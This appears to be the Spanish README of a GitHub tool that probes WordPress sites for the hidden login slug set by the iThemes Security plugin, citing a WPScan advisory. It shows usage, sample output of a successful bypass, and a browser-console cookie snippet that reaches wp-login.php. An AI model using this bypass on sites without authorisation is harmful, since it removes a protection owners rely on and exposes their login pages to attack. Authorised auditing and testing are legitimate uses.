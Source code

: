 # 🔓 Bypass_iThemesSecurity

Herramienta de detección y explotación de slugs ocultos generados por el plugin **iThemes Security** en instalaciones WordPress mal configuradas o desactualizadas.

> ⚠️ Basada en la vulnerabilidad documentada en:  
> [WPScan Advisory - iThemes Security <= 8.1.2](https://wpscan.com/vulnerability/42fdb534-3aef-4ed7-94a8-4cfe8ff977e1)

---

## 🧠 ¿Qué hace esta herramienta?

`Bypass_iThemesSecurity` automatiza la detección de tokens (`slugs`) ocultos usados por iThemes Security para mover el acceso al panel de login de WordPress (`wp-login.php`). Si el sitio está desactualizado o mal configurado, esta herramienta puede encontrar ese slug y permitir el **bypass completo** del ocultamiento.

---

## 🎯 Casos de uso

- Red Teams y Pentesters que necesiten evadir plugins de ocultamiento de login.
- Auditores de seguridad en entornos WordPress.
- Investigadores de seguridad interesados en fingerprinting de instalaciones WordPress.
- Cazadores de bugs que validan configuraciones erróneas.

---

## 🚀 Requisitos

- Python 3.7+
- Librerías:
  - `requests`
  - `beautifulsoup4`
  - `rich`
  - `pyfiglet`

## 📥 Instalación

### 1. Clonar el repositorio

```bash
git clone https://github.com/AndreewNR/Bypass_IthemeSecurity.git
cd Bypass_iThemesSecurity
```

### 2. Instalar dependencias

```bash
pip install -r requirements.txt
```

## ⚙️ Uso

Ejecuta la herramienta con:

```bash
python main.py
```

### 🧪 Ejemplo de uso

[+] Ingresa la URL objetivo (sin / al final): https://tudominio.com

🔍 Iniciando escaneo de slugs ocultos en: https://tudominio.com

🔄 Probando slug: 6bcbbd3fc2
🔄 Probando slug: loginadmin
🔄 Probando slug: abc123...

✅ ¡Bypass exitoso! Slug válido: loginadmin
🔗 Accede directamente: https://tudominio.com/wp-login.php

### 🍪 ¿Y si quieres probar el bypass manualmente?

Puedes simular el bypass en el navegador usando cookies. Si la herramienta detecta un slug válido y entrega cookies, puedes abrir la consola de tu navegador (F12) y ejecutar:
```bash
document.cookie = "itsec-hb-token=loginadmin";
window.location.href = "/wp-login.php";
```

### ⚠️ Descargo de responsabilidad
Esta herramienta es solo para fines educativos y auditorías autorizadas.
El uso no ético o en sistemas sin permiso explícito podría violar leyes locales.
`Autores y colaboradores no se hacen responsables del uso indebido de este software.`



